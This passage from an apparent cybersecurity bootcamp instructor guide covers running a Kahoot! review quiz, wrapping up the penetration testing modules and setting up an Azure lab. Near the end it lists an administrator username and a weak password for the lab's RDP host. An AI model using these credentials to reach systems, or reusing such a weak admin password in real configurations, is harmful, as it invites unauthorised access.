- Select **Play**  if you are logged in. Select **Play as Guest** if you do not have a Kahoot! account.

- Select **Classic** if students are competing individually, and **Team Mode** if they are competing in groups.

  - Leave all the other options as default.

The next page will provide a unique code for the students to start the Kahoot! challenge. (If using teams, only the team captain should complete the following.)

  - Follow the instructions on the screen by going to www.kahoot.it.

  - Enter the unique Kahoot! code.
   
Select **Start** to begin. 

#### Kahoot! Challenge Instructor Notes

After each question is answered by the students/groups, be sure to:

  - Point out how the students did and congratulate the students who answered correctly.

  - Explain the answer, and ask the students if they have any questions.

    - Check to make sure students are ready before proceeding to the next question.
    
  - If a student group loses connectivity, have them refresh the page. They may still be connected to the game. 

  - If they are not, take a note of their score at that time and have them log back in again as a new player. Then, combine their scores at the end of the competition.
  
  - If there is a technical issue or problem with a question, ask the judges (your TAs) to make decisions on how to assign points.

### 11. Wrap-Up (0:10)

Inform students that today we finished the penetration testing modules. Review any concepts that students found challenging and/or answer any questions that students have.

- We only touched the surface of penetration testing; there are many more techniques and tactics that are used.

- If students enjoy breaking things and telling people how to fix them, penetration testing might be a good career!

### 12. Instructor Do: Set Up Next Week's Lab Environment 

Let students know that in the next module, we will return to Azure Lab Services. We will use a new lab environment: Project 2.

Tell students to switch to their local computer environment. Send students the registration link for the Pentesting environment. Once they click on it, the Project 2 environment card will be added to their Azure dashboard.

**Details Around the Environment**

We can access the **Windows RDP host machine** via RDP using the following credentials:

  - Username: `azadmin`
  
  - Password: `p4ssw0rd*`

Make sure that all students are set up and can access this environment. Address any troubleshooting issues prior to the next class.

-------

© 2022 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  
